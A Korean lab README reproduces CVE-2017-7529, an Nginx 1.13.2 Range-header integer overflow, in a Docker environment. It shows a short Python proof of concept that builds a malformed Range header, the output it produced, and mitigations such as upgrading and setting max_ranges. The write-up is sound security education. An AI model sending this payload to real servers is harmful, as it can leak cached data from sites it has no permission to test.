

# CVE-2017-7529 Nginx 취약점 실습

## 1. 취약점 요약

CVE-2017-7529는 Nginx에서 발생한 취약점으로, HTTP 요청의 `Range` 헤더를 처리하는 과정에서 문제가 생기는 취약점이다.  
공격자가 비정상적인 Range 값을 넣어 요청을 보내면, Nginx가 값을 잘못 처리하여 원래 의도하지 않은 응답 데이터가 노출될 수 있다.

- CVE 번호: CVE-2017-7529
- 대상 프로그램: Nginx
- 취약 버전: nginx 1.13.2
- 취약 유형: Integer Overflow, Information Disclosure
- 실습 방식: Docker 환경 구성 후 PoC 실행

<br/>

## 2. 환경 구성

본 실습은 Docker를 이용하여 진행하였다. Docker를 사용하면 로컬 PC에 직접 취약한 버전의 Nginx를 설치하지 않고도, 컨테이너를 통해 실습 환경을 구성할 수 있다.

### 파일 구성

- `docker-compose.yml`: Docker Compose를 이용해 취약한 Nginx 환경을 실행하는 설정 파일
- `default.conf`: Nginx 서버 및 프록시 캐시 설정 파일
- `poc.py`: 취약점 재현을 위한 PoC 코드
- `result.png`: PoC 실행 결과 캡처 이미지
- `README.md`: 실습 과정과 결과를 정리한 보고서

<br/>

## 3. 취약 조건

CVE-2017-7529는 Nginx가 Range 헤더를 처리하는 과정에서 발생할 수 있다.  
특히 Nginx가 프록시 캐시를 사용하는 환경에서 조작된 Range 헤더 요청이 전달될 경우, 캐시 파일 내부의 일부 데이터가 노출될 수 있다.

실습 환경에서는 취약한 버전인 `nginx 1.13.2`를 사용하였고, 프록시 캐시가 설정된 상태에서 PoC를 실행하였다.

<br/>

## 4. 재현 절차 및 PoC 실행

※ 본 실습은 Docker가 설치되어 있고 실행 중인 환경에서 진행한다.

### 1) 레포지토리 다운로드

```bash
git clone https://github.com/ksy0613/kr-vulhub.git
```

### 2) 실습 폴더로 이동

```bash
cd kr-vulhub/Nginx/CVE-2017-7529
```

Windows PowerShell에서는 아래 명령어도 사용할 수 있다.

```powershell
cd kr-vulhub\Nginx\CVE-2017-7529
```

### 3) Docker 환경 실행

```bash
docker compose up -d
```

### 4) 컨테이너 상태 확인

```bash
docker compose ps
```

컨테이너 상태가 `Up`으로 표시되는 것을 확인하였다.

### 5) 웹 서버 접속 확인

브라우저에서 다음 주소로 접속한다.

```text
http://127.0.0.1:8080
```

`Welcome to nginx!` 페이지가 출력되면 환경 구성이 정상적으로 완료된 것이다.

### 6) Python requests 설치

```bash
python3 -m pip install requests
```

Windows에서 `python3` 명령어가 동작하지 않으면 아래 명령어를 사용한다.

```powershell
py -m pip install requests
```

### 7) PoC 실행

Linux 또는 WSL 환경에서는 다음 명령어를 사용한다.

```bash
python3 poc.py http://127.0.0.1:8080
```

Windows PowerShell에서는 다음 명령어를 사용할 수 있다.

```powershell
py poc.py http://127.0.0.1:8080
```

PoC 실행 결과 `Server: nginx/1.13.2`와 비정상적인 `Content-Range` 값이 출력되어 취약점이 재현됨을 확인하였다.

## 5. PoC 코드 설명

PoC 코드는 Python으로 작성되어 있으며, 대상 URL을 인자로 받아 HTTP 요청을 전송한다.

```python
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)

n = file_len + offset
headers["Range"] = "bytes=-%d,-%d" % (n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
print(r.text)
```

이 코드는 먼저 대상 URL에 일반 요청을 보내 응답 본문의 길이를 구한다.  
이후 해당 길이와 `offset` 값을 이용하여 비정상적인 Range 헤더를 생성한다.

일반적인 Range 헤더는 파일의 특정 구간만 요청하는 용도로 사용된다. 그러나 이 PoC에서는 매우 큰 값을 포함한 Range 헤더를 사용하여 취약한 Nginx가 Range 값을 처리하는 과정에서 문제가 발생하도록 한다.

<br/>

## 6. 실행 결과

PoC 실행 결과 다음과 같은 내용이 출력되었다.

```text
Server: nginx/1.13.2
Content-Range: bytes -605-611/612
Content-Range: bytes -9223372036854773979-611/612
Welcome to nginx!
```

출력 결과에서 `Server: nginx/1.13.2`가 확인되었다. 이를 통해 실습 환경에서 취약한 버전의 Nginx가 실행 중임을 확인할 수 있었다.

또한 `Content-Range` 값에 일반적인 범위가 아닌 비정상적인 음수 범위가 포함되어 있었다. 이는 PoC 코드에서 조작한 Range 헤더가 Nginx에 전달되었고, 취약한 Nginx가 해당 요청을 비정상적으로 처리했음을 보여준다.

아래는 PoC 실행 결과 화면이다.



이를 통해 Docker 기반 실습 환경에서 CVE-2017-7529 취약점이 재현됨을 확인하였다.

<br/>

## 7. 대응 방안

### 1) Nginx 버전 업데이트

가장 기본적인 대응 방안은 취약한 Nginx 버전을 사용하지 않는 것이다.  
취약점이 수정된 버전인 Nginx 1.13.3 이상 또는 Nginx 1.12.1 이상으로 업데이트해야 한다.

### 2) Range 요청 제한

임시 대응 방안으로 Nginx 설정에서 Range 요청을 제한할 수 있다.

```nginx
max_ranges 1;
```

해당 설정을 적용하면 클라이언트가 여러 Range 값을 요청하는 것을 제한할 수 있다.

### 3) 캐시 설정 점검

Nginx 프록시 캐시에 민감한 정보가 저장되지 않도록 설정을 점검해야 한다.  
특히 인증 정보, 세션 정보, 개인정보가 포함된 응답이 캐시되지 않도록 주의해야 한다.
